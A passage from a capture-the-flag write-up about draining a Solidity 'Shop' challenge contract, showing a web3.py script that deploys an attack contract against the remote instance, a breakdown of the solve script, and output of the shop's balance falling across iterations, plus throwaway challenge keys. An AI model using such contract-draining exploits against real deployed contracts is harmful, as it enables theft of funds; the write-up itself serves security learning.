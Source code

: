 ```
```

wait, it didn't fail!?
but it didn't give a require error either
it must have reverted
that means it worked
**IT WORKED!!!!!!**

### remote

ok so now all i had to do was make it work on the remote, some frantic googling later, i found a video from an old google ctf that did a similar challenge i could use

copying that pretty much line for line, well at least the parts that compile and connect the local code to the remote
gives me this
```py
install_solc('0.6.8')
set_solc_version('0.6.8')
compiled_sol = compile_files(["Shop.sol", "Attack.sol"], output_values=['abi', 'bin'])
shopContract = compiled_sol['Shop.sol:Shop']
attackContract = compiled_sol['Attack.sol:attack']

exploit = web3.eth.contract(bytecode=attackContract['bin'], abi=attackContract['abi'])
shop = web3.eth.contract(address=contract_address, abi=shopContract['abi'])
tx_hash = send_transaction(exploit.constructor, contract_address)
tx_receipt = web3.eth.wait_for_transaction_receipt(tx_hash)
attack = web3.eth.contract(tx_receipt.contractAddress, abi=attackContract['abi'])
print(f"Attack deployed at address: {tx_receipt.contractAddress}")
```
now all we need to do is employ the strategies we used in attempt 1 and we should get the flag
writing the whole program gets us `solve.py`
now for a quick explanation
 - lines 10 - 26 connect to the netcat server and get our information
 - lines 28 - 35 connect to the rpc server and check if we have enough starting money to perform the exploit
 - lines 44 - 54 define the `send_transaction` function from attempt 1
 - lines 56 - 68 compile and connect the local contracts to the remote contracts
 - lines 70 - 90 are the exploit repeated multiple times so we have enough money, we outlined the explot in the local attempt, however since the Shop already has money we dont need to buy any item 2
 - lines 90 - 102 assert that we have enough money to buy the flag (item 3) and buy it

running the program gives us the output:
```
>>> python3 solve.py
[x] Opening connection to blockchain.n00bzUnit3d.xyz on port 39999
[x] Opening connection to blockchain.n00bzUnit3d.xyz on port 39999: Trying 64.23.154.146
[+] Opening connection to blockchain.n00bzUnit3d.xyz on port 39999: Done
[*] Closed connection to blockchain.n00bzUnit3d.xyz port 39999
contract_address='0x87473d78E347c4061315331D55cb20FBd10064B3'
rpc_url='http://64.23.154.146:46029'
private_key='0x23cd124173952595228f05c9ffbd7cf72bb9ddcfdcd8ad1c983d9709749dac0d'
wallet_address='0xF530A18F3EF24B319F27DCAAE6F4407070a275D3'
secret='55c84924d938a9b84d129874a104efc85fb849ca4be59990ced3857f92c574e8'
Account Address: 0xF530A18F3EF24B319F27DCAAE6F4407070a275D3
Account Balance: 9 ether
Attack deployed at address: 0xEb20341737B3059e0F6E4384C11293844df82036
iteration 1
Shop balance: 2999.999350877388671875 ether
RECIPT OMMITED
RECIPT OMMITED
RECIPT OMMITED
Account Balance: 343.998940497 ether
iteration 2
Shop balance: 2664.999350877388671875 ether
```